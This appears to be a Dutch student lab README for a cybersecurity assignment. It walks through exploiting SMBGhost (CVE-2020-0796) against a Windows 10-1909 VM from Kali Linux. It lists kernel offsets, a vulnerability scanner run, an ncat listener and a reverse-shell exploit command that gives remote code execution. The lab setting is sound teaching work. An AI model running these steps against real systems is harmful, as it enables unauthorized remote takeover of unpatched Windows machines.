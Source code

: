 # Handleiding NPE 

SMBGhost Vulnerability  
CVE-2020-0796
-----------------------------
Doel: Remote Excecution   
Target: Windows 10-1909   
Aanval: Kali Linux  
-----------------------------
Team:
- Demi De Fré   
- Abdul Rehman Shafaquet    
- Arthur Neirynck  

### Algemeen
Alle informatie en documentatie is beschikbaar op onze github repo:
[Github team](https://github.com/abdulnsh/cybersecurity_vr_opdracht).

## Deployment stappenplan

### Stap 1: Downloaden ISO & VDI
* Download het .vdi bestand voor de [Kali Linux](https://www.osboxes.org/kali-linux/) VM.
* Download het .ISO bestand voor de [Windows 10-1909](https://archive.org/download/win-10-1909-english-x-64) VM.  

### Stap 2: Vboxmanage automatisatie script's 
* Open een command prompt naar keuze.
* Run het bash script `./kali.sh` om de Kali Linux VM aan te maken.
* Run het bash script `./windwos1909.sh` om de Windows VM aan te maken.

### Stap 3: Inloggen op de VM's
* Kali inloggegevens (default)
* username: osboxes
* wachtwoord: osboxes.org
* Bij de windows zijn er geen inloggegevens nodig.


## Cheatsheet aanval

### IP-tabel

| VM              | IP Address   |
| ----------------| ------------ |
| Windows 10-1909 | 192.168.1.17 |
| Kali Linux VM   | 192.168.1.20 |

## Inleiding

Hier vermelden onze gebruikte bronnen: 
- [RCE-script](https://github.com/jamf/CVE-2020-0796-RCE-POC/tree/master)
- [Vulnerability Scanner](https://github.com/ButrintKomoni/cve-2020-0796)
- [Extra](https://github.com/jiansiting/CVE-2020-0796-Scanner) (niet nodig, ter info)

### Offsets informatie en uitleg
Voor elke versie van Windows 10 hebben we eerst hun offsets nodig.   
Offsets zijn specifieke geheugenadressen binnen bepaalde DLL's of system modules op een Windows-machine. Deze adressen worden gebruikt door het Python-script [SMBLeedingGhost.py](https://github.com/abdulnsh/cybersecurity_vr_opdracht/blob/main/aanval_script/rce/SMBleedingGhost.py) om specifieke functies of gegevens in het geheugen te benaderen en te manipuleren, wat nodig is voor het uitvoeren van de exploit.

[calculate_target_offsets.bat](https://github.com/abdulnsh/cybersecurity_vr_opdracht/blob/main/aanval_script/rce/calc_target_offsets.bat) is een script dat die offsets kan berekenen en die gelden voor elke Windows 10 die dezelfde versie runt. Hier zijn enkele offset-waarden: (ter info)

| Windows 10 (Version 1909) Builds | V10.0.18363.418 | V10.0.18363.535 - V10.0.18363.628 | V10.0.18363.693 | V10.0.18363.752 | V10.0.18363.365 |
| -------------------------------- | --------------- | --------------------------------- | --------------- | --------------- | --------------- |
| srvnet!SrvNetWskConnDispatch     | 0x2D170         | 0x2D170                           | 0x2D170         | 0x2D170         | 0x2D170         |
| srvnet!imp_IoSizeofWorkItem      | 0x32210         | 0x32210                           | 0x32210         | 0x32210         | 0x32210         |
| srvnet!imp_RtlCopyUnicodeString  | 0x32288         | 0x32288                           | 0x32288         | 0x32288         | 0x32288         |
| nt!IoSizeofWorkItem              | 0x12C380        | 0x12C400                          | 0x6D7A0         | 0x12C410        | 0x12C370        |
| nt!MiGetPteAddress               | 0xBADC8         | 0xBA9F8                           | 0xF1D28         | 0xBA968         | 0xBAFA8         |

Voor onze versie (18363.365) hebben we de volgende nodig :

* 'srvnet!SrvNetWskConnDispatch': 0x2D170,   
=> Deze offset wijst bijvoorbeeld naar een functie in de srvnet module die wordt gebruikt voor het dispatchen van netwerkverbindingen. Het offsetadres, in dit geval 0x2D170, geeft de locatie aan van deze functie in het geheugen
* 'srvnet!imp_IoSizeofWorkItem': 0x32210,
* 'srvnet!imp_RtlCopyUnicodeString': 0x32288,
* 'nt!IoSizeofWorkItem': 0x12C370,
* 'nt!MiGetPteAddress': 0xBAFA8

Deze offsets zijn van cruciaal belang voor het script om de juiste functies en gegevens te vinden en te manipuleren voor het uitvoeren van de exploit.

### Stap 1: Git clone op Kali Linux 
* Voor de makkelijke werking is het handig om de volgende repo's te clonen.
* Clone de volgende github repository in de Desktop :

1. `cd Desktop`
2. `git clone https://github.com/ButrintKomoni/cve-2020-0796` (scanner)
3. `git clone https://github.com/jamf/CVE-2020-0796-RCE-POC/tree/master` (RCE exploit)
```
┌──(osboxes㉿osboxes)-[~/Desktop]
└─$ tree
.
├── CVE-2020-0796-RCE-POC
│   ├── README.md
│   ├── SMBleedingGhost.py              - > dit is onze main script voor RCE
│   ├── calc_target_offsets.bat
│   ├── demo.gif
│   ├── smbghost_kshellcode_x64.asm
│   └── tools
│       ├── cdb.exe
│       ├── dbghelp.dll
│       ├── dumpbin.exe
│       ├── link.exe
│       ├── msvcp140.dll
│       ├── symsrv.dll
│       ├── tbbmalloc.dll
│       ├── vcruntime140.dll
│       └── vcruntime140_1.dll
└── cve-2020-0796
    ├── README.md
    └── cve-2020-0796-scanner.py            -> dit is onze scanner

4 directories, 16 files
```

### Stap 2: Vulnerability check
* We controleren eerst of de target (Windows 10-1909) vulnerable is met een [python scanner script](https://github.com/abdulnsh/cybersecurity_vr_opdracht/blob/main/aanval_script/scanner/cve-2020-0796-scanner.py).  
* Parameter = ip van target
```
┌──(osboxes㉿osboxes)-[~/Desktop/cve-2020-0796]
└─$ python3 cve-2020-0796-scanner.py 192.168.1.17
Vulnerable
```

### Stap 3: Remote excecution uitvoeren
* Open een terminal op de Kali Linux en voer de volgende commando's uit.
* `ncat -lvp <port>` : Dit zal onze toegang zijn naar onze windows (dit kan ncat -lvp 1234 zijn)
* `SMBleedingGhost.py <target_ip> <reverse_shell_ip> <reverse_shell_port>`  
=>`target_ip` = 192.168.1.17    
=>`reverse_shell_ip` en `reverse_shell_port`= ip address en poort waarop ncat luistert.
* Het commando ziet er dus als volgt uit: `python3 SMBleedingGhost.py 192.168.1.17 192.168.1.20 1234`

### Stap 4: Resultaat
* Na een tijdje zal de ncat terminal waarop er geluisterd wordt, veranderen naar een Windows 10 shell.
* Nu heb je vanop afstand toegang, via een cmd, tot de target en kan je willekeurige code uitvoeren.

![alt text](images/image-2.png)

![alt text](images/image-1.png)

![alt text](images/image-3.png)










